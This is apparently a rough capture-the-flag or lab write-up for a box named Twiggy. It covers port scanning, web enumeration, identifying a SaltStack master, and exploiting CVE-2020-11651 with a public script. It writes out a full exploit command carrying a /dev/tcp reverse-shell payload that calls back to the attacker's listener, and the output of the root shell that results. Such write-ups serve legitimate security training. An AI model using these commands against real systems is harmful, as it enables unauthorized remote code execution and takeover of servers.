



# Twiggy (rough notes)

We start with the usual port-discovery `nmap` run:

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -p- -T4 twiggy
...

PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt
```

And once again but with specific ports and the service fingerprinting option:

```
┌──(kali㉿kali)-[~]
└─$ nmap -v -Pn -p 22,53,80,4505,4506,8000 -A twiggy
...

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-favicon: Unknown favicon MD5: 11FB4799192313DD5474A343D9CC0A17
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).
```


UDP scan returned nothing:

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -v -sU -T4 --top-ports 100 twiggy
...
```

The webserver on port 80 has some Mezzanine CRM running.



I see a link to an admin login page and try default credentials, didn't work. I tried fuzzing the form with `ffuf` but that wasn't effective.

I spend some more time fumbling around the web app looking for potential vectors for abuse.

Mezzanine has XSS but not RCE exploits so I move on.

```
┌──(kali㉿kali)-[~]
└─$ searchsploit mezzanine                     
------------------------------------------ ---------------------------------
 Exploit Title                            |  Path
------------------------------------------ ---------------------------------
Mezzanine 4.2.0 - Cross-Site Scripting    | python/webapps/40799.txt
------------------------------------------ ---------------------------------
Shellcodes: No Results
```

I move on to the the webserver on port 8000... It just has a bunch of keywords in a JSON object:



I enumerate paths with `gobuster`:

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://twiggy:8000/ -t 20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://twiggy:8000/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 146]
/login                (Status: 200) [Size: 43]
/events               (Status: 401) [Size: 753]
/jobs                 (Status: 401) [Size: 753]
/stats                (Status: 401) [Size: 753]
/logout               (Status: 500) [Size: 823]
Progress: 4193 / 220561 (1.90%)[ERROR] Get "http://twiggy:8000/buyers_guide": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 4437 / 220561 (2.01%)[ERROR] Get "http://twiggy:8000/dapper": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/keys                 (Status: 401) [Size: 753]
Progress: 5294 / 220561 (2.40%)[ERROR] Get "http://twiggy:8000/top-left": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/run                  (Status: 200) [Size: 146]
/token                (Status: 200) [Size: 146]
/Espa%c3%b1ol         (Status: 500) [Size: 1455]
/Fran%c3%a7ais        (Status: 500) [Size: 1455]
/%E9%A6%96%E9%A1%B5   (Status: 500) [Size: 1455]
/Espa%C3%B1ol         (Status: 500) [Size: 1455]
/Fran%C3%A7ais        (Status: 500) [Size: 1455]
/%C0                  (Status: 500) [Size: 1455]
/P%C3%A1gina_principal (Status: 500) [Size: 1455]
/Portugu%c3%aas       (Status: 500) [Size: 1455]
/Inform%c3%a1tica     (Status: 500) [Size: 1455]
   (... a lot more paths with 500s ...)
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

All of either just show an error with no information or serve the original JSON object.

I move on to the ZeroMQ ZMTP servers... I've got nothing here, so I just search for "zeromq" and "zmtp" in exploit-db:

```
┌──(kali㉿kali)-[~]
└─$ searchsploit zeromq
Exploits: No Results
Shellcodes: No Results
                                                                                                                                                                                 
┌──(kali㉿kali)-[~]
└─$ searchsploit zmtp  
Exploits: No Results
Shellcodes: No Results
```

Getting desperate... I look up the words from the server in Google...



I learn that this might be a SaltStack set-up... with the servers on 4505 and 4506 being a "minion" and a "master".

I search exploitdb for "saltstack":

```
┌──(kali㉿kali)-[~/Desktop/src/offsec/vpn_profiles]
└─$ searchsploit saltstack
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
Saltstack 3000.1 - Remote Code Execution    | multiple/remote/48421.txt
-------------------------------------------- ---------------------------------
Shellcodes: No Results
```

This is promising... I run the code! I point it at `8000` and `4505` first with no luck. But then when I point it at `4506`... the script at least gets further... and confirms that we have the right idea.

I tried reverse shells in python and perl, but they wouldn't work. Eventually I tried a `sh` reverse shell and used port 80 for my local listener. That worked:

```
┌──(kali㉿kali)-[~]
└─$ python 48421.py --master 192.168.234.62 --port 4506 --exec "0<&196;exec 196<>/dev/tcp/192.168.45.240/80; sh <&196 >&196 2>&196"
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/.local/lib/python3.11/site-packages/salt/transport/client.py:27: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.234.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: 3J+XIUkNF7hBV4vmBMThrOVNtk/MMCHmT7QoUZ9lmQL9u4EJafv/kEAnCeEpdZRrgO7g2dEL2Ho=
[+] Attemping to execute 0<&196;exec 196<>/dev/tcp/192.168.45.240/80; sh <&196 >&196 2>&196 on 192.168.234.62
[+] Successfully scheduled job: 20240308022347242184
/home/kali/.local/lib/python3.11/site-packages/salt/transport/base.py:281: TransportWarning: Unclosed transport! <salt.transport.zeromq.RequestClient object at 0xffff90ad2d10> 
  File "/home/kali/48421.py", line 376, in <module>
    main()
  File "/home/kali/48421.py", line 325, in main
    channel = init_minion(args.master_ip, args.master_port)
  File "/home/kali/48421.py", line 47, in init_minion
    return salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')
  File "/home/kali/.local/lib/python3.11/site-packages/salt/transport/client.py", line 31, in factory
    return salt.channel.client.ReqChannel.factory(opts, **kwargs)
  File "/home/kali/.local/lib/python3.11/site-packages/salt/channel/client.py", line 55, in factory
    return SyncWrapper(
  File "/home/kali/.local/lib/python3.11/site-packages/salt/utils/asynchronous.py", line 77, in __init__
    self.obj = cls(*args, **kwargs)
  File "/home/kali/.local/lib/python3.11/site-packages/salt/channel/client.py", line 137, in factory
    transport = salt.transport.request_client(opts, io_loop=io_loop)
  File "/home/kali/.local/lib/python3.11/site-packages/salt/transport/base.py", line 59, in request_client
    return salt.transport.zeromq.RequestClient(opts, io_loop=io_loop)
  File "/home/kali/.local/lib/python3.11/site-packages/salt/transport/zeromq.py", line 1067, in __init__
    super().__init__(opts, io_loop)
  File "/home/kali/.local/lib/python3.11/site-packages/salt/transport/base.py", line 297, in __init__
    super().__init__()
  warnings.warn(
TransportWarning: Enable tracemalloc to get the object allocation traceback

```

We landed as `root`

```
┌──(kali㉿kali)-[~/Desktop/src/offsec/vpn_profiles]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.240] from (UNKNOWN) [192.168.234.62] 38182
whoami
root
cat /root/proof.txt
076bf68c9fa762e3ff27430bda710300
```

> I am still not sure if the last attempt worked because I did port 80 for the local listener (maybe some egress rules on the victim box?), or if I was having issues escaping quotes properly for the python and perl reverse shells...